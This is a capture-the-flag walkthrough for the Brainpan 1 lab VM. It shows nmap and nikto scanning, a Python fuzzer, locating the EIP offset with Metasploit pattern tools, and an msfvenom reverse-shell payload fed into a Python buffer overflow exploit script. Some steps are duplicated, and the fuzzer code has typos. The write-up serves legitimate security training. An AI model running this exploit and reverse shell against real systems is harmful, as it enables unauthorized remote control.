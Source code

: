 # Brainpan 1 Walkthrough
Following is the outcome of my hacking handiwork

## 1. Initial Scan

`nmap -sV -sT -v -p- -T4 192.168.56.1/24`

```
Scanning 192.168.56.106 [65535 ports]
Discovered open port 9999/tcp on 192.168.56.106
Completed Connect Scan at 14:46, 2.04s elapsed (65535 total ports)
Initiating Service scan at 14:46
Scanning 1 service on 192.168.57.1
Completed Service scan at 14:46, 6.13s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 192.168.57.1
NSE: Script scanning 192.168.57.1.
Initiating NSE at 14:46
Completed NSE at 14:46, 0.01s elapsed
Initiating NSE at 14:46
Completed NSE at 14:46, 0.01s elapsed
Nmap scan report for 192.168.57.1
Host is up (0.000064s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
9999/tcp open  abyss?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.80%I=7%D=3/4%Time=5E5FB12A%P=x86_64-pc-linux-gnu%r(NUL
SF:L,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|\
SF:x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x
SF:20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x2
SF:0\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x2
SF:0\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x2
SF:0\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|\
SF:x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x2
SF:0_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x2
SF:0_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x2
SF:0\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_\
SF:|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x2
SF:0_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x2
SF:0_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x2
SF:0THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20>>\x20");
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Uptime guess: 8.367 days (since Tue Feb 25 05:58:00 2020)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
```
![](https://github.com/d15rup7or/Labs/blob/master/Brainpan/img/nmap-scan)

`nikto -h 192.168.56.106`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/nikto.png)

`192.168.56.106:10000/bin/`

Let's run the `strings` command to view the hardcoded strings within the binary

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/strings.png)

Time for launching Windows 32-bit VM and some scripting work

## 2. Fuzzing

Time to make sure everything's ready and send brainpan.exe to the guest OS (setting up SimpleHTTPServer on the host may come in handy)

In the next step we're gonna send a long, repeated string of A's with this simple fuzzer:

```
import socket

for i in range(30):
  s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
  s.connect(("192.168.56.105",9999)
  payloaod = int(i)*("A"*100)
  s.send(payload+"\r\n")
  print "[*] Sending buffer data with " + str(len(str(payload))) + " A's\r\n"
  s.close()
```
Here, the Windows machine IP address given by DHCP is '192.168.56.105' (mind to change it). We use the script visible above and see what it spits out.
Turns out that the overflow occurs around the length 900 A's.


**In the first round** we are going to see whether it's vulnerable to buffer overflow. We can write a simple fuzzer in python 

![sending A's](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/sending-A's.png?raw=true)

Stack addresses EAX EIP ESP

`ruby /usr/share/metasploit-framwerok/tools/exploit/pattern_create.rb -l 900`

Generated pattern:



![sending A's](https://github.com/d15rup7or/Labs/blob/master/Brainpan/img/pattern_create.png?raw=true)

Metasploit generator is a handy tool, though it is abysmally slow

Stack addresses EAX EIP ESP

`ruby /usr/share/metasploit-framwerok/tools/exploit/pattern_create.rb -l 900`

!(pattern_create)[]

And we insert the output from above into the fuzzing script

`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...`

After executing it (.py script) we see the following output containing `Access violation`:

The EIP was overwritten with .....

`ruby pattern_offset.rb 35724134`

Setting JMP ESP address and shellcode


!(pattern_create)[]


And we insert the output from above into the fuzzing script

`aaa`

After executing it (.py script) we see the following output containing `Access violation`:

The EIP was overwritten with .....

`ruby pattern_offset.rb -q 35724134`
|
|
`[*] Exact match at offset 524`

Exactly 524 bytes of 'crash' is needed in order to get us to EIP. Time to edit our fuzzer and see if we can overwrite eip with some B's (/x42). 

Setting JMP ESP address and shellcode

`!mona jump -r ESP`

`0x31170000` <- no ASLR

`msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.101 lport 443 -f c -o shellcode.txt -b "\x00"`


```
import socket, sys

buf = ("\xb8\xf9\...\...\...\..."
"\xc9\xb1\...\..\...\...\...\..."
"...
"...
...
"\x92\x7c\xa6\xf6")

payload = "A"*524 + "\xf3\x12\x17\x31" + "\x90"*16 + buf
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
  s.connect(('192.168.56.106',9999))
except:
  print "Error"
  sys.exit(0)

s.recv(1024)
s.send(payload)
```




![](https://github.com/d15rup7or/Labs/blob/master/Brainpan/img/generating-shellcode.png?raw=true)

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/root%40brainpan.png)

## Conclusion and benefits
It was an opportunity to improve
- scripting skills
- 
